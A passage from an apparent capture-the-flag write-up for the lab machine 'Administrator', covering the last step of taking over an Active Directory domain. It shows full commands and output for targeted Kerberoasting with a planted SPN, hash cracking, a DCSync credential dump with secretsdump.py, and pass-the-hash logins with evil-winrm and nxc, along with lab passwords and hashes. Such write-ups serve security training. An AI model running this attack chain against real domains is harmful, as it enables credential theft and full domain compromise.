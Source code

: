 ![](/assets/images/writeups/administrator/BH-DCSync.png)

From the BloodHound data we see that `ethan` has the `DS-Replication-Get-Changes` and the `DS-Replication-Get-Changes-All` permission on the domain `ADMINISTRATOR.HTB`. 

### DCSync
We can perform a DCSync attack after compromsing his account. Let's proceed!

```console
$ bloodyAD --host 10.10.11.42 -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' set object ethan servicePrincipalName -v 'fake2/dc.administrator.htb'
$ GetUserSPNs.py -dc-ip 10.10.11.42 'administrator.htb/olivia:ichliebedich' -request-user ethan
$ hashcat -m 13100 ethan.hash $ROCKYOU
<HASH>:limpbizkit

$ secretsdump.py 'administrator.htb/ethan:limpbizkit'@10.10.11.42 -just-dc-user administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
[*] Cleaning up...
```

We have sucessfully compromised the domain and can now grab the root flag.

```console
$ evil-winrm -i 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        11/17/2024  11:49 AM             34 root.txt

$ nxc winrm 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -x 'type Desktop\\root.txt'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] Executed command (shell type: cmd)
WINRM       10.10.11.42     5985   DC               <REDACTED>
```
